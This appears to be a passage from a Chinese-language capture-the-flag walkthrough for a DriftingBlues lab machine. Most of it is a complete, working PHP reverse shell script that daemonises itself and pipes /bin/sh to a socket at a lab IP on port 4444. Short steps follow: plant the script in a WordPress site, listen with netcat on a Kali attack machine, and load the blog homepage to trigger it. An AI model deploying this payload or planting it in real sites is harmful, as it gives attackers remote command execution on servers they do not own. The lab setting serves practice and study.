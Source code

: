 ```
`set_time_limit (0);``$VERSION = "1.0";``$ip = '192.168.7.3';  // CHANGE THIS``$port = 4444;       // CHANGE THIS``$chunk_size = 1400;``$write_a = null;``$error_a = null;``$shell = 'uname -a; w; id; /bin/sh -i';``$daemon = 0;``$debug = 0;``//``// Daemonise ourself if possible to avoid zombies later``//``// pcntl_fork is hardly ever available, but will allow us to daemonise``// our php process and avoid zombies.  Worth a try...``if (function_exists('pcntl_fork')) {` `// Fork and have the parent process exit` `$pid = pcntl_fork();` `  if ($pid == -1) {` `printit("ERROR: Can't fork");` `exit(1);` `}` `  if ($pid) {` `exit(0);  // Parent exits` `}` `// Make the current process a session leader` `// Will only succeed if we forked` `if (posix_setsid() == -1) {` `printit("Error: Can't setsid()");` `exit(1);` `}` `$daemon = 1;``} else {` `printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");``}``// Change to a safe directory``chdir("/");``// Remove any umask we inherited``umask(0);``//``// Do the reverse shell...``//``// Open reverse connection``$sock = fsockopen($ip, $port, $errno, $errstr, 30);``if (!$sock) {` `printit("$errstr ($errno)");` `exit(1);``}``// Spawn shell process``$descriptorspec = array(` `0 => array("pipe", "r"),  // stdin is a pipe that the child will read from` `1 => array("pipe", "w"),  // stdout is a pipe that the child will write to` `2 => array("pipe", "w")   // stderr is a pipe that the child will write to``);``$process = proc_open($shell, $descriptorspec, $pipes);``if (!is_resource($process)) {` `printit("ERROR: Can't spawn shell");` `exit(1);``}``// Set everything to non-blocking``// Reason: Occsionally reads will block, even though stream_select tells us they won't``stream_set_blocking($pipes[0], 0);``stream_set_blocking($pipes[1], 0);``stream_set_blocking($pipes[2], 0);``stream_set_blocking($sock, 0);``printit("Successfully opened reverse shell to $ip:$port");``while (1) {` `// Check for end of TCP connection` `if (feof($sock)) {` `printit("ERROR: Shell connection terminated");` `break;` `}` `// Check for end of STDOUT` `if (feof($pipes[1])) {` `printit("ERROR: Shell process terminated");` `break;` `}` `// Wait until a command is end down $sock, or some` `// command output is available on STDOUT or STDERR` `$read_a = array($sock, $pipes[1], $pipes[2]);` `$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);` `// If we can read from the TCP socket, send` `// data to process's STDIN` `if (in_array($sock, $read_a)) {` `if ($debug) printit("SOCK READ");` `$input = fread($sock, $chunk_size);` `if ($debug) printit("SOCK: $input");` `fwrite($pipes[0], $input);` `}` `// If we can read from the process's STDOUT` `// send data down tcp connection` `if (in_array($pipes[1], $read_a)) {` `if ($debug) printit("STDOUT READ");` `$input = fread($pipes[1], $chunk_size);` `if ($debug) printit("STDOUT: $input");` `fwrite($sock, $input);` `}` `// If we can read from the process's STDERR` `// send data down tcp connection` `if (in_array($pipes[2], $read_a)) {` `if ($debug) printit("STDERR READ");` `$input = fread($pipes[2], $chunk_size);` `if ($debug) printit("STDERR: $input");` `fwrite($sock, $input);` `}``}``fclose($sock);``fclose($pipes[0]);``fclose($pipes[1]);``fclose($pipes[2]);``proc_close($process);``// Like print, but does nothing if we've daemonised ourself``// (I can't figure out how to redirect STDOUT like a proper daemon)``function printit ($string) {` `if (!$daemon) {` `print "$string\n";` `}``}`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

插入完反弹shell后在kali攻击机上监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

开启监听后打开wp的首页面，触发反弹

```
http://driftingblues.box/blog/
```
